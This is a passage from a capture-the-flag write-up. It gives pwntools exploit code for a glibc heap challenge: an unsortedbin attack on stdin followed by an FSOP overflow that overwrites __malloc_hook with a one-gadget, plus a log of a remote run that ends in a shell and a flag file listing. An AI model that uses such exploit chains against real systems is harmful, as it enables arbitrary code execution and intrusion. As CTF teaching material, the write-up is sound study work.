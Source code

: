 Now we just have to ask for a `0x30` sized chunk:
```py
add(3, 40, b"1337", hang=True)
pwn.log.info(f"unsortedbin attack done on: {hex(stdin + 0x40 - 0x10)}")
pwn.log.info(f"Enjoy your shell!")

"""
After:
0x7ffff7dcfa40 <_IO_2_1_stdin_+64>:	0x00007ffff7dcfca0 <- stdin->_IO_buf_end
0x7ffff7dcfca0 <main_arena+96>:	0x00005555556086b0 <- unsortedbin
"""
```

## FSOP + PROFIT

The last part is very easy, we just have to overflow up to `&__malloc_hook` to write the one-gadget:
```py
io.sendline(b"") 
io.recvuntil(b">> ") 
io.send( 
        b"4\n\x00\x00\x00" + 
        pwn.p64(libc + 0x3ed8d0) + 
        pwn.p64(0xffffffffffffffff) + 
        pwn.p64(0) + 
        pwn.p64(libc + 0x3ebae0) + 
        pwn.p64(0) * 3 + 
        pwn.p64(0x00000000ffffffff) + 
        pwn.p64(0) * 2 + 
        pwn.p64(libc + 0x3e82a0) + 
        pwn.p8(0) * 0x150 +  
        # !!!!! 
        pwn.p64(libc + 0x10a38c) # <- one-gadget
        #pwn.p64(libc + 0x4f322) 
        # pwn.p64(0x1337) 
        )
"""
0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
"""
```

The `4\n\x00\x00\x00` corresponds to the option that asks for the huge chunk (we cannot allocate standards chunks anymore) which will trigger `__malloc_hook` :).

Which gives:
```
root@3b9bf5405b71:/mnt# python3 exploit.py REMOTE HOST=167.172.56.180 PORT=30332
[*] '/mnt/once_and_for_all'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'/mnt/out'
[+] Opening connection to 167.172.56.180 on port 30332: Done
[*] Switching to interactive mode

How much space do you need for this massive weapon: Adding to your inventory..
$ id
uid=100(ctf) gid=101(ctf)
$ ls
flag.txt
glibc
```